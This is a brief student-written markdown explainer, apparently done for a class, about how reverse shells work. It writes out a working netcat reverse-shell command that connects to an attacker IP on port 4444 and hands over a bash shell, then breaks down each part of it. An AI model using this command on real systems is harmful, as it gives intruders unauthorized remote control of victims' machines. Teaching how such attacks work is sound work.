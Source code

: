 **I did this in 20-30 minutes in class off the top of my head, as my previous changes didnt get pushed**

# What hacking is really like

In an age where technology runs just about everything, one might find themselves wondering how can someone sitting in their bedroom cause millions of dollar of damages or commit massive crippling attacks against government states. We're going to look at how an actual attack could work using a reverse shell.

# What is a reverse shell
A reverse shell is a peice of software written usually in common lanauges that runs on most machines, that sits and listens for commands from another machine across the internet. Its purpose to give remote access to a user, usually an attacker, to send commands directly to the host machines command line

```
nc 172.89.23.156 4444 -e /bin/bash
```

This is a basic reverse shell, using NetCat, what this effectivelty does is attempt to connect to a machine, in this case my attacking machine through the internet. IT attempts to connect to a listening serive on port ```4444``` and upon successful connection. MY attacking machine will have a shell open on the host machine awaiting whatever commands i may want to give.

# Dissecting the shell

```
nc $ip $port [arguments]
```
```nc``` is [NetCat](https://en.wikipedia.org/wiki/Netcat). Netcat is a tool built into many modern machines running today that allows the user to interact with the internet through the command line, in this case allowing me to forward a shell to my offensive machine.

```&ip``` Referse to the ip address your attacking machine is.

```$port``` Refers to the port your attacking machine is listening on.

```[arguments]``` Referse to possible arguments you can pass, such as in this case, the ```-e``` argument

The reason we pass ```-e /bin/bash``` into the ```[Arguments]``` block is becuase that is what makes all the magic of this reverse shell. We utilize the [*bash*](https://en.wikipedia.org/wiki/Bash_(Unix_shell)) shell by getting its path and feeding it to NEtCat via the ```-e``` argument. This forwards the a bash shell towards the offensive machine allowing it to utilize the victim machine's command line.
